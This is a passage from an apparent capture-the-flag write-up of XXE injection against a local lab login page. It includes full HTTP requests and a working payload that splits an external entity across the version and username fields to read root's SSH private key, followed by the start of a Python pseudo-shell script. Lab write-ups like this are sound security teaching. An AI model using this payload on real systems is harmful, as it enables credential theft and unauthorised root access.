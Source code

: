 ```bash
Cookie: _ga=GA1.1.556007235.1605286952; BEEFHOOK=2U1KV8VTRjtguOVmiksnJuXHVJlqbH0MmHD2YYgEp0E4zwnZCfXegCxua3jgW6RhAbkJZUw6d24n1DLG; csrftoken=EmT9kL6ZyqW9B5TgA5VTXJj2papMqnTChcMCTHQ3BuKPrQcGZqdJMKDeJmb1iudO; language=en; cookieconsent_status=dismiss; welcomebanner_status=dismiss; continueCode=89HwumhXtkIJT9C8sLF5iLfZS1UaHBuJhRtqcnI6TbCMsLFxfwSyH3u4h9tncaI6Cos1Fei4fDSYUOJuZZh9mcpBIy5CPWs1qF4qipoflkSyBUz9uD7h13tvmcM5IE7TPWCans1oFL7iDpUaLH4Xu61hBlckmI3WT1nC57szXFKDfzLS8kU12HQLuMRtXjcYYI6BTg3C2vsgEF1qiOlfx5SE2HPm; session=eyJwb2ludHMiOjB9.YLXpkQ.U2F_qxHZ1tRO56W8iAXqmPaqtKM
Upgrade-Insecure-Requests: 1


username=Zxelex&version=1.0.0r
```
Looking closely at the request we can see it is using application/xhtml+xml as its Accept header, so we can try XXE injection.
For payload I refered to the following website.
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
Looking at the structure of the website we know that we cannot inject XXE payload in the username field but what we can do is we can insert the payload in version feild and call that entity in the username field. It is complex to read but now worries with the below request we can understand it easily.
```bash
POST /login HTTP/1.1
Host: 127.0.0.1:1234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://127.0.0.1:1234
Connection: close
Referer: http://127.0.0.1:1234/login
Cookie: _ga=GA1.1.556007235.1605286952; BEEFHOOK=2U1KV8VTRjtguOVmiksnJuXHVJlqbH0MmHD2YYgEp0E4zwnZCfXegCxua3jgW6RhAbkJZUw6d24n1DLG; csrftoken=EmT9kL6ZyqW9B5TgA5VTXJj2papMqnTChcMCTHQ3BuKPrQcGZqdJMKDeJmb1iudO; language=en; cookieconsent_status=dismiss; welcomebanner_status=dismiss; continueCode=89HwumhXtkIJT9C8sLF5iLfZS1UaHBuJhRtqcnI6TbCMsLFxfwSyH3u4h9tncaI6Cos1Fei4fDSYUOJuZZh9mcpBIy5CPWs1qF4qipoflkSyBUz9uD7h13tvmcM5IE7TPWCans1oFL7iDpUaLH4Xu61hBlckmI3WT1nC57szXFKDfzLS8kU12HQLuMRtXjcYYI6BTg3C2vsgEF1qiOlfx5SE2HPm; session=eyJwb2ludHMiOjB9.YLcLag.apgZ9quRcaS1LlTf3nN8EWCf78Q
Upgrade-Insecure-Requests: 1


username=%26username%3b&version=1.0.0--><!DOCTYPE+foo+[<!ENTITY+username+SYSTEM+"/root/.ssh/id_rsa">+]><!--
```
We can see from above request we injected the XXE payload in the version field and then we declared the entity username that payload and then we called the username entitiy in the username feild more like a tounge twister right I KNOW.
We got the RSA key for the root.
Now let's login as root and get all the flags.
For some reason the SSH wasn't working all that well for me so it wrote a python script to connect to SSH. It is more like a pseudo shell but you know something is better than nothing.
## I Didn't use ssh at all for this box I used the below method for this box so you can try the above ssh method that should work for you but didn't work for we so below is the method that you want to try if SSH isn't working for you.
## Python Script
```python
#!/usr/bin/python3

import paramiko
from pwn import *
import sys
```